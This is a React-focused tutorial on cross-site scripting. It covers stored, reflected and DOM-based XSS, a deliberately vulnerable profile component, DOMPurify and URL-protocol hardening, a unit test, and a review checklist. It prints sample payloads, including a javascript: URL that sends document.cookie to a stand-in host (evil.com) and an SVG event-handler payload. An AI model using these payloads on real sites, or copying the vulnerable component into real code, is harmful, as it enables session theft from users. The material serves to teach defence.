

# 👾 Cross-Site Scripting (XSS) Deep-Dive: Stored, Reflected & DOM-Based

> The definitive guide to neutralizing client-side script injection: React sinks (`dangerouslySetInnerHTML`, `javascript:` URLs), SVG vectors, and DOMPurify sanitization.

---

## 1. 🎯 Overview & Intuitive Mental Model

### The Production Hook
Cross-Site Scripting (XSS) remains the most prevalent client-side vulnerability on the web. Despite modern frontend frameworks (React, Angular, Vue) providing automatic string interpolation escaping by default, developers routinely introduce dangerous escape hatches when integrating rich-text WYSIWYG editors, rendering markdown, handling dynamic URLs, or parsing SVGs.

When an attacker successfully injects and executes JavaScript inside a victim's browser, the attacker inherits the **complete authority of the victim**: extracting sensitive session tokens, logging keystrokes, capturing webcam inputs, and issuing authenticated API mutations on the victim's behalf.

### 🧠 The Fun Analogy: The "Smuggled Actor in the Theater Script"
- **How React normally works (Safe Puppetry):** The playwright writes a character name: `"Alice"`. React reads `"Alice"` and paints the letters onto a wooden placard held up by an actor. Even if the name is `"<script>alert(1)</script>"`, React paints those exact characters onto the wooden placard (`&lt;script&gt;`). It is inert paint.
- **The XSS Breach (`dangerouslySetInnerHTML` / DOM Sink):** The director says: *"Take whatever the audience wrote on this napkin and shout it through the theater megaphone as an active stage direction!"* The audience wrote: *"Turn off all the stage lights, steal everyone's wallets, and shout Fire!"* The actors follow the command because it crossed from *data* into *live executable theater direction*.

### The Three XSS Archetypes

| Archetype | Storage Location | Execution Vector | Typical Exploit Scenario |
|---|---|---|---|
| **Stored (Persistent) XSS** | Database / Server Storage | Victim views page containing stored comment | Forum comments, user profile bios, product reviews |
| **Reflected (Non-Persistent) XSS** | Ephemeral URL / Request | Victim clicks crafted phishing link | Search parameters (`?q=...`), error banners |
| **DOM-Based XSS** | Client DOM / Browser Memory | Client JS writes to unsafe sink (`location.hash`) | Single-page apps parsing fragment or query params |

---

## 2. 🎨 Interactive Visual Architecture



> 💡 **Visual Inspection Tip:** Open Chrome DevTools (`Elements` tab). Search (`Ctrl+F`) for the string you injected. If your payload appears enclosed in quotes inside text (`<div>&lt;img src=x&gt;</div>`), React safely escaped it. If it rendered as an active node (``), an unsafe DOM sink was utilized!

---

## 3. 💥 Real-World Exploit Walkthrough

### Scenario: The Dangerous Markdown / Unsafe URL Sink in React
A team added markdown support to their blog platform and rendered user website links directly into anchor tags: `<a href={user.websiteUrl}>Website</a>`.

#### ❌ Vulnerable React Components
```tsx
// VulnerableProfile.tsx
import React from 'react';

export const VulnerableProfile: React.FC<{ bioHtml: string; websiteUrl: string }> = ({ bioHtml, websiteUrl }) => {
  return (
    <div className="profile-card">
      {/* ⚠️ FLAW 1: Raw HTML injection sink */}
      <div dangerouslySetInnerHTML={{ __html: bioHtml }} />

      {/* ⚠️ FLAW 2: javascript: pseudo-protocol URL sink */}
      <a href={websiteUrl} target="_blank" rel="noopener noreferrer">
        Visit User Website
      </a>
    </div>
  );
};
```

#### 💥 The Attacker's Exploit Payloads
1. **The `javascript:` URL Vector:**
   The attacker sets `websiteUrl` to:
   ```text
   javascript:fetch('https://evil.com/steal?c='+document.cookie)
   ```
   When the victim clicks "Visit User Website", the browser executes the JavaScript directly in the active session context!
2. **The SVG / Mutation XSS Vector:**
   The attacker submits this rich text bio:
   ```html
   <svg><animatetransform onbegin="alert(document.domain)"></svg>
   ```

---

## 4. 🛡️ Resolution & Defense-in-Depth

### Hardened Production Component with DOMPurify & URL Sanitization
```tsx
// HardenedProfile.tsx - BULLETPROOF CLIENT SANITIZATION
import React, { useMemo } from 'react';
import DOMPurify from 'dompurify';

interface ProfileProps {
  bioHtml: string;
  websiteUrl: string;
}

// 🛡️ Safe URL Protocol Validator: Blocks javascript:, vbscript:, and data: URLs
function sanitizeUrl(rawUrl: string): string {
  try {
    const parsed = new URL(rawUrl, window.location.origin);
    if (parsed.protocol === 'http:' || parsed.protocol === 'https:') {
      return parsed.href;
    }
  } catch {
    // Malformed URL
  }
  return '#'; // Fallback safe anchor
}

export const HardenedProfile: React.FC<ProfileProps> = ({ bioHtml, websiteUrl }) => {
  // 🛡️ DOMPurify with Strict HTML Tag & Attribute Allowlist
  const sanitizedBio = useMemo(() => {
    return DOMPurify.sanitize(bioHtml, {
      ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'ul', 'li', 'code'],
      ALLOWED_ATTR: ['href', 'title', 'target'],
      ALLOW_DATA_ATTR: false,
    });
  }, [bioHtml]);

  const safeWebsiteUrl = useMemo(() => sanitizeUrl(websiteUrl), [websiteUrl]);

  return (
    <div className="profile-card">
      {/* 🛡️ Sanitized HTML output */}
      <div dangerouslySetInnerHTML={{ __html: sanitizedBio }} />

      {/* 🛡️ Protocol-verified anchor link */}
      <a href={safeWebsiteUrl} target="_blank" rel="noopener noreferrer">
        Visit User Website
      </a>
    </div>
  );
};
```

---

## 5. 🧪 Hands-On Verification & Lab

### Automated XSS Sanitization Unit Test (Vitest)
```typescript
// xss-sanitizer.test.ts
import { describe, it, expect } from 'vitest';
import DOMPurify from 'dompurify';

describe('XSS Sanitization & Sinks Suite', () => {
  it('strips active script tags and event handlers from HTML', () => {
    const maliciousPayload = '<p>Hello</p><script>alert(1)</script>';
    const clean = DOMPurify.sanitize(maliciousPayload, {
      ALLOWED_TAGS: ['p', 'b', 'i'],
      ALLOWED_ATTR: [],
    });

    expect(clean).toBe('<p>Hello</p>');
    expect(clean).not.toContain('script');
    expect(clean).not.toContain('onerror');
  });
});
```

---

## 6. 📋 Code Review Checklist

- [ ] **No Unsanitized `dangerouslySetInnerHTML`:** Is every usage of `dangerouslySetInnerHTML` passed through a configured `DOMPurify.sanitize()` call?
- [ ] **Protocol Check on `<a href>`:** Are dynamic anchor links validated to ensure they only begin with `http://` or `https://`?
- [ ] **No Dynamic `eval()` or `new Function()`:** Are dynamic code execution functions strictly banned by lint rules?
- [ ] **Safe SVG Rendering:** Are user-uploaded SVGs treated as raw images (``) or parsed with XML serializers that strip `<script>` tags?
- [ ] **CSP Layer Deployed:** Is a Content Security Policy deployed with `default-src 'self'` and nonces to catch any sanitization omissions?
